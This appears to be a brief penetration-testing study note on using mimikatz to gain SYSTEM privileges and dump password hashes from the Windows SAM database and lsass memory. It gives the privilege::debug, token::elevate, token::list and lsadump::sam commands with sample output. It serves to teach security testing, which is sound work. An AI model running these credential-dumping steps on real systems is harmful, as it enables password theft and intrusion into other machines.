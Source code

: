 

Dumps SAM database  
Extracts pw hashes from **lsass**' (Local Security Authority Subsystem) process memory.  
  
  
As **lsass** is privileged process running under SYSTEM, we have to start **mimikatz** from an admin cmd prompt.  
  
  
Usage:  
```powershell
C:\Tools\password_attacks\mimikatz.exe  
...  
mimikatz # privilege::debug  
Privilege '20' OK  
  
mimikatz # token::elevate  
Token Id  :  0  
User name  :  
SID name  :  NT AUTHORITY\SYSTEM  
....  
-> Impersonated !  
....  
```


**privilege::debug** - Enables the _SeDebugPrivilge_ access right req to tamper w/ another process.  
	*If fails, mimikatz was most likely not executed w/in an admin cmd prompt  
  
**token::elevate** - Elevates security token from High Integrity (admin) to SYSTEM Integrity.  
	*If launched from a system shell, this step's not required.  
  
	It is worth noting that the token module may list (**token::list**) & use (**token::elevate**) tokens for all users currently logged into the machine,  
	which in some cases could be an administrator of someother machine.  
  
  
**lsadump::sam** - Dump contents of SAM db